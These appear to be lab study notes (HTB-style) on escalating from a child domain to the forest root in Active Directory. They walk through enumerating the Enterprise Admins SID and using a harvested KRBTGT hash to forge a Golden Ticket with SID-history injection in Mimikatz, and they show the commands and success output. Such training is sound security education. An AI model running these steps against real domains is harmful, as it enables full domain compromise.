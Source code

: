 ```powershell
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

At this point, we have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Currently we donot have access

- `PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$`

### **Creating a Golden Ticket with Mimikatz**

```powershell
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```

we can confirm a kerberos ticket is in memory using `klist` command
